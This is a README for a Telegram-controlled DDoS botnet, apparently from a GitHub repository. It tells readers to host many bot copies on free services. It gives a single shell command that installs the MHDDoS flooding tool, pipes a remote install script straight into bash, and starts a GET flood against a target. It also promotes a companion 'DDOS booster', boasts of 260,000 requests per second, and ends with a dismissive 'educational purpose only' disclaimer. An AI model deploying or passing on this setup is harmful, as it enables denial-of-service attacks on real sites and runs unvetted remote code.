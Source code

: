 # DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! (I use [GLITCH](https://glitch.com/dashboard) for simple and free host)
<br><br>
## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET example.com 1 100 mhddos_proxy/list 100 5 `
<br>
Now hit the URL of the bot for start (only if your hosting sleep your project in free mode like Glitch), you can also make a bot for start all other bot. 


The installation tutorial is not finished, if you have any problems I can help you.


[+] NEW ! You can now upgrade your requests/s using my (https://github.com/Mehliug-git/DDOS_Booster)[DDOS BOOSTER !] It's just a DDOS bot without Telegram, just get a URL and start DDOS !     


**In my Botnet I have actually 18 bots, I can go up to 260 000 requests /s**
<br><br>

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.
